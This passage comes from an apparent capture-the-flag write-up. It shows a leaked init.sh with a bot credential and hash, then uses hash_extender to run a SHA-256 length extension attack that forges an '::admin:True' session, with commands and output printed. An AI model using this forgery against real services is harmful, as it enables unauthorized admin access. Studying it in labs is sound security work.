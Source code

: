 ```js
    }
});
app.get("/file/upload", (q,r,n) =>{r.json({"message":"Disabled for security reasons"});});
app.get("/*", (q,r,n) => {r.json("200 not found , redirect to .");});
```
I did also get the init.sh file with this request:
```bash
#!/bin/bash

echo "$(date) api config starts" >>
mkdir -p .config/bin .config/local .config/share /var/log/zapi
export k=$(cat /opt/auth/api.key)
export botauth_id="bot1:bot"
export hash="4b22a0418847a51650623a458acc1bba5c01f6521ea6135872b9f15b56b988c1"
ln -s /proc .config/bin/process_informations
echo "$(date) api config done" >> /var/log/zapi/api.log

exit 1
```
Ok, we have a app.js running on the other port that we saw open.<br>
The provided Node.js application is a simple web server using Express.<br>
It has several routes, including /login, /register, /users, /file/get, and /file/upload.<br>
The application implements user authentication through cookies and has some basic security measures.<br>
The /login and /register routes are disabled, and the /users route requires admin privileges.<br>
The /file/get route allows authenticated users to read files, with basic security checks to prevent unauthorized access.<br>
The /file/upload route is disabled for security reasons.<br>
The application is in development and may have additional features under construction.<br>

## Hash Extension attack

The vulnerable part of the js script is actually the authentication function, in fact it uses a concatenation hash that is vulnerable to hash extension.<br>
In fact we could log with the user and hash that we found inside the init.sh script but we wouldn't be able to get files from the server due to low privilege.<br>
In order to authenitcate with an admin we need to append `::admin:True` to the `bot1:bot` string, but doing so in plain text would change the hash and the check will fail.<br>
But we can leverage an exploit named Hash Extension that is better explained [here](https://book.hacktricks.xyz/crypto-and-stego/hash-length-extension-attack).<br>
To do so i downloaded a script from github, you can find it [here](https://github.com/iagox86/hash_extender)<br>
```bash
git clone https://github.com/iagox86/hash_extender
cd hash_extender
sudo make CFLAGS="-w" install #to skip deprecation warnings
```
Now to craft the attack we actually need to brute force the key length so i generated a bunch of payloads like that:
```bash

```
then i tried them in the following request:
```bash
hash_extender -s 4b22a0418847a51650623a458acc1bba5c01f6521ea6135872b9f15b56b988c1 -d bot1:bot -a ::admin:True --secret-min=4 --secret-max=25
```
output:
```bash
Type: sha256
Secret length: 4
New signature: 14be2f4a24f876a07a5570cc2567e18671b15e0e005ed92f10089533c1830c0b
New string: 626f74313a626f74800000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000603a3a61646d696e3a54727565

```